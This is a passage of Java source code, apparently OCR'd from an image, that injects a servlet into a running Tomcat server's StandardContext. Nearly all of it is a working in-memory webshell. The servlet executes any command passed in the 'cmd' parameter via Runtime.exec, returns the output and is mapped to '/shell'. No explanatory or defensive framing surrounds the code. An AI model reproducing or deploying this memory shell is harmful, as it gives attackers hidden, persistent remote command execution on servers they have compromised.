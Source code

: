 ```
//                ApplicationContext applicationContext = (ApplicationContext) field.get(servletContext);
//
//                Field stdctx = applicationContext.getClass().getDeclaredField("context");
//                stdctx.setAccessible(true);
//                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

                Servlet servlet = new Servlet() {
                    @Override
                    public void init(ServletConfig servletConfig) throws ServletException {

                    }

                    @Override
                    public ServletConfig getServletConfig() {
                        return null;
                    }

                    @Override
                    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
                        try {
                            if (servletRequest.getParameter("cmd") != null) {
                                Process process = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                                InputStream inputStream = process.getInputStream();
                                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                                String line;
                                while ((line = bufferedReader.readLine()) != null) {
                                    servletResponse.getWriter().println(line);
                                }
                            }
                        } catch (Exception e) {
                            e.printStackTrace();
                        }
                    }

                    @Override
                    public String getServletInfo() {
                        return null;
                    }

                    @Override
                    public void destroy() {

                    }
                };
                Wrapper wrapper = standardContext.createWrapper();
                wrapper.setServlet(servlet);
                wrapper.setName(name);
//                wrapper.setServletClass(servlet.getClass().getName());
                wrapper.setLoadOnStartup(1);      //设置启动优先级

                standardContext.addChild(wrapper);
                standardContext.addServletMappingDecoded("/shell",name);

                resp.getWriter().println("Servlet Add");
            }
        }catch (Exception e){
```